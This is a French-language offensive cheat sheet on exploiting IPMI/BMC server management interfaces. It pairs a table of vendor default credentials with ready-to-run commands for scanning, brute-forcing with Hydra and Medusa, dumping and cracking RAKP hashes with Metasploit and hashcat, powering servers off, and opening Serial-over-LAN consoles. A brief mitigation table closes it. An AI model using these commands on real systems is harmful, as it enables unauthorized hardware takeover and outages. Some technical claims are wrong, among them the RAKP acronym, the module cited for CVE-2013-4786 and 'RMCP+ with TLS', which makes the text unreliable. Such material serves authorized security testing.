

Ce document détaille les méthodes d'exploitation des services **IPMI** (Intelligent Platform Management Interface) et **BMC** (Baseboard Management Controller) via l'utilisation d'identifiants par défaut et l'interaction avec le protocole **RMCP**.



> [!info] Contexte
> L'**IPMI** est un protocole de gestion hors-bande. Il est souvent déployé sur un réseau de management dédié. Le succès de l'exploitation dépend de l'accessibilité du port **623/UDP** depuis le segment réseau de l'attaquant.

> [!danger] Risque opérationnel
> L'utilisation de commandes comme **power off** peut entraîner un déni de service (**DoS**) critique sur les serveurs de production.

> [!warning] Prérequis
> Le port **623/UDP** doit être accessible depuis la machine de l'attaquant. Assurez-vous d'avoir accès au VLAN de management.

## Liste des identifiants par défaut

| Fabricant | Login | Password |
| :--- | :--- | :--- |
| **Supermicro IPMI** | `ADMIN` | `ADMIN` |
| **Dell iDRAC** | `root` | `calvin` |
| **HP iLO** | `Administrator` | Étiquette physique |
| **Lenovo IMM** | `USERID` | `PASSW0RD` |
| **IBM IMM** | `USERID` | `PASSW0RD` |
| **Cisco CIMC** | `admin` | `password` |
| **Intel BMC** | `admin` | `admin` |
| **Sun/Oracle ILOM** | `root` | `changeme` |
| **ASRock IPMI** | `admin` | `admin` |
| **Gigabyte BMC** | `admin` | `password` |
| **Fujitsu iRMC** | `admin` | `admin` |
| **Quanta IPMI** | `admin` | `admin` |
| **Tyan IPMI** | `root` | `root` |

## Détection du service

Le service **IPMI** s'appuie sur le protocole **RMCP** (Remote Management Control Protocol) via le port **623/UDP**.

### Scan de version
```bash
nmap -p 623 --script=ipmi-version target.com
```

Sortie attendue :
```text
623/udp open  ipmi
```

## Test d'authentification

Une fois le service identifié, la validation des identifiants s'effectue via **ipmitool**.

### Connexion avec ipmitool
```bash
ipmitool -I lanplus -H target.com -U ADMIN -P ADMIN chassis power status
```

Sortie attendue en cas de succès :
```text
Chassis Power is ON
```

## Bruteforce

En cas d'échec des identifiants par défaut, le bruteforce est une option viable.

### Bruteforce avec Hydra
```bash
hydra -L users.txt -P passwords.txt target.com ipmi
```

### Bruteforce avec Medusa
```bash
medusa -h target.com -U users.txt -P passwords.txt -M ipmi
```

## Dump de hashs (RAKP)

Le protocole IPMI 2.0 utilise l'authentification **RAKP** (Remote Authentication Dial-in User Service Keyed). Il est possible de récupérer le hash de l'utilisateur sans authentification préalable.

```bash
# Utilisation de msfconsole pour extraire le hash
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOSTS target.com
run
```

Une fois le hash récupéré, il peut être cassé hors-ligne avec **hashcat** (mode 7300) :
```bash
hashcat -m 7300 hash.txt wordlist.txt
```

## Attaque RAKP (CVE-2013-4786)

Cette vulnérabilité permet à un attaquant de recevoir le hash de n'importe quel utilisateur (y compris l'administrateur) simplement en envoyant une requête d'authentification initiale. Le serveur répond avec le hash HMAC-SHA1 du mot de passe de l'utilisateur.

```bash
# Exploitation via metasploit
use auxiliary/scanner/ipmi/ipmi_cipher_zero
set RHOSTS target.com
run
```

## Exfiltration de données via IPMI

L'accès au BMC permet d'extraire des informations critiques sur l'état du système et les logs matériels.

### Extraction des logs système (SEL)
```bash
ipmitool -I lanplus -H target.com -U admin -P admin sel list
```

### Extraction des informations de configuration réseau
```bash
ipmitool -I lanplus -H target.com -U admin -P admin lan print 1
```

## Analyse de risque réseau (segmentation)

L'IPMI est souvent exposé sur un réseau de management. Une mauvaise segmentation permet à un attaquant présent sur le réseau de production d'accéder aux interfaces de gestion.

- **Analyse de flux** : Vérifier si le port **623/UDP** est routable depuis le segment utilisateur.
- **Risque RMCP** : Le protocole RMCP (IPMI 1.5) transmet les données en clair. Privilégier **RMCP+** (IPMI 2.0) qui supporte le chiffrement AES.
- **Audit de segmentation** :
```bash
# Vérification de la visibilité du BMC depuis un segment non autorisé
nmap -sU -p 623 -Pn <IP_BMC>
```

## Exploitation post-authentification

L'accès authentifié permet un contrôle total sur le matériel, souvent sans journalisation locale sur le système d'exploitation cible.

### Contrôle d'alimentation
```bash
ipmitool -I lanplus -H target.com -U admin -P admin power off
ipmitool -I lanplus -H target.com -U admin -P admin power reset
```

### Accès console (Serial Over LAN)
```bash
ipmitool -I lanplus -H target.com -U admin -P admin sol activate
```

### Extraction des logs matériels
```bash
ipmitool -I lanplus -H target.com -U admin -P admin sel list
```

## Mitigation

| Vulnérabilité | Solution |
| :--- | :--- |
| Identifiants par défaut | Rotation immédiate des mots de passe |
| Accès distant non sécurisé | Segmentation réseau (VLAN de management dédié) |
| Manque de chiffrement | Activation de **RMCP+** avec **TLS** |
| Commandes critiques | Restriction des privilèges utilisateurs |

Ce sujet est lié aux phases d'**Enumeration**, à l'utilisation d'outils comme **Hydra**, aux techniques de **Network Scanning** et aux processus de **Vulnerability Assessment**.